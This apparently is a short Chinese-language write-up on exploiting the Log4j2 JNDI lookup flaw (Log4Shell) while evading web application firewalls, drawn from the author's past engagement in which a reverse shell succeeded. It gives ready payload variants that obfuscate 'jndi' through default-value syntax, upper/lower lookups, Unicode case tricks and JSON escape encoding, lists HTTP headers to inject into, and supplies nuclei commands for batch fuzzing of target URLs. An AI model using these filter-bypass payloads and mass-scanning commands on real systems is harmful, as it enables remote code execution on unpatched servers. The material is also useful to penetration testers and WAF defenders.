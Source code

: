 
##  0x00 原理介绍
     
         去年有个项目，有WAF，然后进行了绕过，成功反弹，现在在回忆记录一下。
     
     log4j2输出日志的时候除了常见的变量替换，还支持远程获取相应的内容，获取远程内容是通过lookup功能提供，
     
     ## 变量替换如下
     
     logger.info("user name: {}, alias name: {}", userName, aliasName)
     
     获取远程内容支持jndi
     
## 0x01 WAF绕过总结

         
         从log4j-2.15.0-rc2开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本log4j2.0-beta9 <=        版本 log4j <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过。
          :- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过
     logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");
          Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
     logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
     logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");      
          
          同时也可以利用一些特殊字符的大小写转化的问题
     ı => upper => i (Java 中测试可行)
     ſ => upper => S (Java 中测试可行)
     İ => upper => i (Java 中测试不可行)
     K => upper => k (Java 中测试不可行)
     logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");
          
          现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试，像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
     {"key":"\u0024\u007b"}
     {"key":"\x24\u007b"}
## 0x02 请求头Fuzz测试

       这个漏洞请求头也存在风险，有如下请求头可以利用
       
       X-Client-IP 
       X-Remote-IP 
       X-Remote-Addr 
       X-Forwarded-For 
       X-Originating-IP 
       User-Agent 
       Referer 
       CF-Connecting_IP 
       True-Client-IP 
       X-Forwarded-For 
       Originating-IP 
       X-Real-IP 
       X-Client-IP 
       Forwarded Client-IP 
       Contact X-Wap-Profile 
       X-Api-Version
      
       检测方法，下载 https://github.com/test502git/log4j-fuzz-head-poc 将文件放到nuclei同目录下
       
       执行如下命令即可快速针对log4j批量fuzz请求头检测漏洞
       
       # 单个检测  速率为30
      ./nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 30
      # 批量检测  速率为30
      ./nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 30

      也可以直接通过-debug参数，在终端中看到请求和响应包的详细信息
      
      
      ![image](https://user-images.githubusercontent.com/118274389/236361498-acf6bfb6-a586-4140-9245-2dae0b12c166.png)



       
       
 
 ## 0x02 参考
    https://blog.csdn.net/qq_40640917/article/details/128613592
